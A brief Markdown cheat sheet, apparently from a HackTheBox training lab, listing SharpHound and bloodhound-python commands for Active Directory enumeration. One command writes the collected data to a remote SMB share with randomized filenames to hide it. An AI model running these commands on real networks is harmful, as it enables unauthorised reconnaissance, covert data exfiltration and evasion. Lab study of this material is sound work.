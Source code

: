 


# BloodHound

| Command                                                                                                                            | Description                            |
| ---------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------- |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor         |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output   |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                  |
